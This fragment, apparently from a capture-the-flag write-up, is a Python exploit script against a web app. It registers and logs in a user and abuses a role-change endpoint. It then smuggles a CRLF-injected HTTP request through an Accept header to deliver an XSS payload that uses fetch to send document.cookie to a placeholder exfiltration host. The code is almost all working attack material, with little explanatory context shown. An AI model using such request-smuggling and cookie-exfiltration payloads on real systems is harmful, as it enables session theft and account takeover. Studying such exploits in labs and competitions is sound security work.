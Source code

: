 ```py
   "username":"bengskyy134",
   "password":"haha123@A"
}
req.post(HOST+"/?action=register", data=data)
req.post(HOST+"/?action=login", data=data)
req.post(HOST+"/?action=change-role", data={"role":"admin"*10000}).text
payload = "url=http://app:8080/**/fetch('EXFIL_HOST/'%2bdocument.cookie)//?digit=3[o={}]%20in%20[o[Symbol[%27hasInstance%27]]%20=%20eval][location[%27pathname%27]%20instanceof%20o]"
x = f"""\r\n\r\nPOST /report/ HTTP/1.1\r\nHost: app:8000\r\nContent-type: application/x-www-form-urlencoded\r\nUser-agent: xx\r\nContent-length: {len(payload)}\r\n\r\n{payload}"""
headers = {
   "Accept":"*/*"+quote(x)
}
c = req.post(HOST+"?action=request", headers=headers, data={"path":"ping.php"})
```

{% endraw %}
